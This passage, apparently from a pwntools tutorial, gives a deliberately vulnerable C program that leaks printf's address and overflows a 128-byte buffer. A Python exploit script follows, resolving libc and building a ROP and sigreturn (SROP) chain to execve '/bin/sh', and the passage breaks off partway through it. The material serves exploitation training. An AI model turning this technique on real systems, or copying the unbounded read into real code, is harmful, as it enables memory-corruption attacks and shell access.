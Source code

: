 #### ELF symbol resolver

```
ELF("/lib/x86_64-linux-gnu/libc.so.6")
```

Other features include functions to assist with common exploitation primitives and techniques, such as building ROP chains, shellcodes and SROP structures, dynamic memory leak helpers, format string exploitation, cyclic pattern generation, and more.

## leak-bof.c

### leak-bof.c

```
// leak-bof.c
#include <stdio.h>
#include <unistd.h>

void vuln() {
    char buff[128];
    printf("Overflows with 128 bytes: ");
    fflush(stdout);
    read(0, buff, 2000);
}

int main(int argc, char **argv) {
    printf("I'm leaking printf: %p\n", (long)printf);
    vuln();
}
```

```
gcc -o leak-bof leak-bof.c
```

### leak-bof-exploit.py

```
#!/usr/bin/env python3

from pwn import *
context.update(arch='amd64', os='linux')

elf = ELF("./leak-bof")
libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.33.so")
p = process("./leak-bof")
l = log.progress("Stage 1: leak printf and calculate libc's base address")

p.readuntil(b"I'm leaking printf: ")
libc.address = int(p.readline(), 16) - libc.sym['printf']
l.success(f"0x{libc.address:x}")
rop = ROP(libc.file.name)

l = log.progress("Stage 2: pop a shell with ROP + SROP payload")
bin_sh = next(libc.search(b'/bin/sh'))
syscall = libc.address + rop.syscall.address

rop.raw(libc.address + rop.find_gadget(['pop rax', 'ret']).address)
rop.raw(constants.SYS_rt_sigreturn)
rop.raw(syscall)

# build SROP frame
frame = SigreturnFrame(kernel="amd64", arch="amd64")
frame.rax = constants.SYS_execve
frame.rdi = bin_sh
```